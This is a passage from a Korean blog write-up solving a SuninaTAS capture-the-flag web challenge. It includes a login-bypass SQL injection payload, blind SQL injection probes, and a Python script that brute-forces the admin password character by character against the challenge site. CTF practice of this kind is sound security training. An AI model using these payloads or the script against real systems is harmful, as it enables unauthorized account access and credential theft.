line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#010101">&lt;</span><span style="color:#010101">/</span><span style="color:#066de2">form</span><span style="color:#010101">&gt;</span></div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#010101">&lt;</span><span style="color:#010101">/</span><span style="color:#066de2">body</span><span style="color:#010101">&gt;</span></div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#010101">&lt;</span><span style="color:#010101">/</span><span style="color:#066de2">html</span><span style="color:#010101">&gt;</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#999999">&lt;!--&nbsp;Hint&nbsp;:&nbsp;guest&nbsp;/&nbsp;guest&nbsp;&amp;&nbsp;Your&nbsp;goal&nbsp;is&nbsp;to&nbsp;find&nbsp;the&nbsp;admin's&nbsp;pw&nbsp;--&gt;</span></div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#999999">&lt;!--&nbsp;M@de&nbsp;by&nbsp;2theT0P&nbsp;--&gt;</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div></div><div style="text-align:right;margin-top:-13px;margin-right:5px;font-size:9px;font-style:italic"><a href="http://colorscripter.com/info#e" target="_blank" style="color:#e5e5e5text-decoration:none">Colored by Color Scripter</a></div></td><td style="vertical-align:bottom;padding:0 2px 4px 0"><a href="http://colorscripter.com/info#e" target="_blank" style="text-decoration:none;color:white"><span style="font-size:9px;word-break:normal;background-color:#e5e5e5;color:white;border-radius:10px;padding:1px">cs</span></a></td></tr></table></div>

<hr/>

나의 목표는 admin의 비밀번호를 알아내는 것인 것 같다.
select / Union / or / white space / by / having / from / char / ascii / left / right / delay / 0x
등의 단어는 막혀이는것 같다

<img src="/screenshot/suninatas/web-9/suninatas-9-2.png">

	id에 [admin' -- ]
	pw에 [1111] ( 아무거나 )

를 입력하여 admin으로 로그인해 보였다.
blind sql injection은 substring함수나 len 함수를 이용하여 정보를 알아내는 것이다.
<a href="https://websecurity.tistory.com/154">https://websecurity.tistory.com/154</a>
이것처럼

[admin' and substring(pw,1,1)='c' -- ]
 위를 예시로 Blind SQL Injection을 시도해 봤더니
 
 <img src="/screenshot/suninatas/web-9/suninatas-9-3.png">
 
False라고 떳다. pw의 1번째는 c가 아닌가 보다.

blind SQL Injection 의 감을 찾으려고 admin' and len(pw)=10 -- 를이용해 길이를 구했다.

이걸 파이썬 코드로 자동화를 해보았다.

<div class="colorscripter-code" style="color:#010101;font-family:Consolas, 'Liberation Mono', Menlo, Courier, monospace !important; position:relative !important;overflow:auto"><table class="colorscripter-code-table" style="margin:0;padding:0;border:none;background-color:#fafafa;border-radius:4px;" cellspacing="0" cellpadding="0"><tr><td style="padding:6px;border-right:2px solid #e5e5e5"><div style="margin:0;padding:0;word-break:normal;text-align:right;color:#666;font-family:Consolas, 'Liberation Mono', Menlo, Courier, monospace !important;line-height:130%"><div style="line-height:130%">1</div><div style="line-height:130%">2</div><div style="line-height:130%">3</div><div style="line-height:130%">4</div><div style="line-height:130%">5</div><div style="line-height:130%">6</div><div style="line-height:130%">7</div><div style="line-height:130%">8</div><div style="line-height:130%">9</div><div style="line-height:130%">10</div><div style="line-height:130%">11</div><div style="line-height:130%">12</div><div style="line-height:130%">13</div><div style="line-height:130%">14</div><div style="line-height:130%">15</div><div style="line-height:130%">16</div><div style="line-height:130%">17</div><div style="line-height:130%">18</div><div style="line-height:130%">19</div><div style="line-height:130%">20</div><div style="line-height:130%">21</div><div style="line-height:130%">22</div></div></td><td style="padding:6px 0;text-align:left"><div style="margin:0;padding:0;color:#010101;font-family:Consolas, 'Liberation Mono', Menlo, Courier, monospace !important;line-height:130%"><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#a71d5d">import</span>&nbsp;requests</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">URL&nbsp;<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>&nbsp;<span style="color:#63a35c">"http://www.suninatas.com/challenge/web22/web22.asp"</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">cookies&nbsp;<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>&nbsp;{</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#63a35c">'&nbsp;_ga'</span>&nbsp;:&nbsp;<span style="color:#63a35c">'GA1.2.1981821646.1563260655'</span>,</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#63a35c">'_gid'</span>:&nbsp;<span style="color:#63a35c">'GA1.2.708257714.1563260655'</span>,</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#63a35c">'ASP.NET_SessionId'</span>:<span style="color:#63a35c">'4flyxi1ymme1b2cqrvi5zxso'</span>,</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#63a35c">'ASPSESSIONIDACDDDCQT'</span>:<span style="color:#63a35c">'MMPPNADDFAINNFAEBKJGBLFA'</span>,</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#63a35c">'ASPSESSIONIDQCABDDRQ'</span>:<span style="color:#63a35c">'JLPHDFKCCIEIDDNIEGIPFJPL'</span>,</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#63a35c">'ASPSESSIONIDSACACBTS'</span>:<span style="color:#63a35c">'KIENAEDDOLGLMHBOPLBDHEPN'</span>,</div><div style="padding:0 6px; white-space:pre; line-height:130%">}</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#a71d5d">for</span>&nbsp;i&nbsp;<span style="color:#a71d5d">in</span>&nbsp;<span style="color:#066de2">range</span>(<span style="color:#0099cc">1</span>,<span style="color:#0099cc">11</span>):</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#a71d5d">for</span>&nbsp;j&nbsp;<span style="color:#a71d5d">in</span>&nbsp;<span style="color:#066de2">range</span>(<span style="color:#0099cc">33</span>,<span style="color:#0099cc">127</span>):</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;response&nbsp;<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>&nbsp;requests.get(<span style="color:#63a35c">"http://www.suninatas.com/challenge/web22/web22.asp?id=admin%27+and+substring%28pw%2C"</span><span style="color:#0086b3"></span><span style="color:#a71d5d">+</span><span style="color:#066de2">str</span>(i)<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span><span style="color:#63a35c">"%2C1%29%3D%27"</span><span style="color:#0086b3"></span><span style="color:#a71d5d">+</span>chr(j)<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span><span style="color:#63a35c">"%27+--+&amp;pw=1"</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#a71d5d">if</span>&nbsp;(&nbsp;response.text.find(<span style="color:#63a35c">"&lt;b&gt;OK&nbsp;&nbsp;&lt;font&nbsp;size=4&nbsp;color=blue&gt;admin&lt;/font&gt;&lt;/b&gt;"</span>)&nbsp;<span style="color:#0086b3"></span><span style="color:#a71d5d">!</span><span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>&nbsp;<span style="color:#0086b3"></span><span style="color:#a71d5d">-</span><span style="color:#0099cc">1</span>):</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#999999">#print(response.text)</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#066de2">print</span>(chr(j),end<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span><span style="color:#63a35c">""</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;break</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div></div><div style="text-align:right;margin-top:-13px;margin-right:5px;font-size:9px;font-style:italic"><a href="http://colorscripter.com/info#e" target="_blank" style="color:#e5e5e5text-decoration:none">Colored by Color Scripter</a></div></td><td style="vertical-align:bottom;padding:0 2px 4px 0"><a href="http://colorscripter.com/info#e" target="_blank" style="text-decoration:none;color:white"><span style="font-size:9px;word-break:normal;background-color:#e5e5e5;color:white;border-radius:10px;padding:1px">cs</span></a></td></tr></table></div>

<hr />

<img src="/screenshot/suninatas/web-9/suninatas-9-4.png">

로그인을 성공하였고 이것을 auth입력하면 문제가 풀린다.
